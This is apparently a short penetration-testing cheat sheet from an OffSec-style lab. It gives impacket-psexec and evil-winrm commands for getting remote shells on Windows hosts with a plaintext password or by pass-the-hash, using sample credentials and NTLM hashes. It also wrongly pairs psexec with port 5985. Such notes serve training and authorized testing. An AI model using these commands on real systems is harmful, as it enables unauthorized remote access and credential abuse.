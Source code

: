 ## Impacket-psexec
If you have credentials and port 5985 is open you can acces with following command:
```bash
impacket-psexec offsec.local/Allison:'RockYou!'@192.168.143.59
```
With hash:
```bash
impacket-psexec "Administrator":@192.168.143.59 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5 -d offsec.local
```

## Evil-WinRM
If you have a list of NTLM hashes you can use:
```bash
evil-winrm -i 192.168.197.170 -u 'dave' -H 'd3774a8e42207941fbe832e77ff0dc6f'
```